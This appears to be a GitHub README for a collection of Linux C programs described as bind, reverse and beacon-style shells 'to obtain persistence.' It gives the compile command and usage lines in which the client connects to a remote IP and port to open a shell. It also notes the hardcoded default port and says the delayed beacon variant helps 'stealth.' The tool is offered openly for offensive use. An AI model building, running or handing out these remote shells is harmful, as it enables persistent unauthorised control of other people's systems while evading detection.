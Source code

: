 # Description
These are binaries that you can compile and execute to obtain persistence.
- Bind Shells
- Reverse Shells
- Beacon-like Shells

Note: Currently these shells are Linux specific meaning they most likely won't run on Windows OS. Windows shells will come in the future though!

# Compiling
To compile the binaries, simply run:
```
gcc -o server server.c && gcc -o client client.c
```

# Usage

## Bind Shells
The server port is statically set within the server. If you wish to change it, change the PORT variable. Default is 4444.
```
./server <PORT>

rlwrap ./client <IP> <Port>
```
I also suggest using the `rlwrap` tool when executing the client. This tool allows you to scroll through previous commands and use arrow keys to edit your commands.

## Reverse Shells
The `port` and `IP address` is statically set within the client. You can change it by editing the `PORT` and `ip_addr` variables.
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```
I also suggest using the `rlwrap` tool when executing the client. This tool allows you to scroll through previous commands and use arrow keys to edit your commands.

## Beacon Shells
These are basically reverse shells except they have a delay in which they grab commands. This can be helpful in stealth. HTTP based beacon shells may come in the future!
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```
